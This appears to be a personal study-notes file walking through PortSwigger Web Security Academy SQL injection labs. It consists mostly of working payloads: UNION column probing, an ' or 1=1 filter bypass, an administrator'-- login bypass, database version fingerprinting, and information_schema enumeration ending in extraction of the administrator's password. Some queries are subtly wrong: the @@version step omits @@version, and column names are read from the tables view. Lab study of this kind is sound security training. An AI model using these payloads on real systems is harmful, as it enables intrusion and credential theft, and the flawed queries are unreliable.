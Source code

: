 # SQL Injection Notes

This will be the start of the SQL injection notes from the portswigger web security academy. I will just be listing walkthroughs and methodologies from the labs. Read the material for background information or watch.

Tips for exam: If 'Advanced Search' is used privilege escalation will be easy. 

### Cheat sheet: 
https://portswigger.net/web-security/sql-injection/cheat-sheet 

Injection points to consider:

- search parameters
- cookie values
- url parameters

### UNION Methodology

```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
Oracle:
' UNION SELECT NULL FROM DUAL--
MySQl or Microsoft:
' UNION SELECT NULL#
' UNION SELECT NULL,NULL#
Check if text in columns:
' UNION SELECT 'abc',NULL--
' UNION SELECT NULL,'abc'--
```


## Labs walkthrough sections

### SQLi vulnerability in WHERE clause allowing retrieval of hidden data

When selecting a refined search category like `Gifts` one can see the value in the URL set as Gifts. Adding the below  payload let's us view all products even unreleased ones.  

```
' or 1=1--
```

![image](https://github.com/user-attachments/assets/2d0bf1ab-78c8-480f-8f95-c2906d9fd7fe)

### SQL injection vulnerability allowing login bypass

Go to `my account` and enter arbirtraty login values with burp intercept on, then change the url value with: `administrator'--`

![image](https://github.com/user-attachments/assets/8ed32490-050b-4102-bfd7-5b397c7eecb6)


### SQL injection attack, querying the database type and version on Oracle

So first methodology for UNION attacks, in Oracle based on the Cheatsheet we see that every Oracle db needs a table to select from. We will always need a table to call to in Oracle, so in this case let's start with adding FROM dual in our query at the end. All of these injections are placed in the same as above, in the categories filter.

So it would look like

```
' UNION SELECT NULL FROM DUAL--
```

Just add Null's until we identify the length of columns. We find that 2 no longer gives us internal server errors. So now we are going to check for text by just adding random strings to the columns where the NULLS are like: "abc" 

```
' UNION SELECT 'abc', NULL FROM DUAL--
' UNION SELECT 'abc', 'abc' FROM DUAL--
```

We see both columns contain text values, so now the end challenge is to display the version of Oracle. Which you call by doing `SELECT BANNER FROM v$version`

```
' UNION SELECT BANNER, NULL FROM v$version--
```

### SQL injection attack, querying the database type and version on MySQL and Microsoft

Similar methodology steps as the above UNION for Oracle but with # as the comment, we stop at 2 but add additional NULLs if you still get 500 internal errors

```
' UNION SELECT NULL#
' UNION SELECT NULL,NULL#
```

To check for text in columns

```
' UNION SELECT 'abc',NULL#
' UNION SELECT NULL,'abc'#
```


To solve just add @@version to the columns above

```
' UNION SELECT NULL,NULL#
```

### SQL injection attack, listing the database contents on non-Oracle databases

Follow the same UNION strategy as above

```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT 'abc',NULL--
' UNION SELECT NULL,'abc'--
```

Then we need to pull data on the tables in the db

```
' UNION SELECT table_name, NULL FROM information_schema.tables--
```

Use the table you can deduce contains user creds

```
' UNION SELECT column_name, NULL FROM information_schema.tables WHERE table_name='users_abcdef'--
```

Then pull out the administrator pass with this:

```
' UNION SELECT username_abcdef, password_abcdef FROM users_abcdef--
```

### 
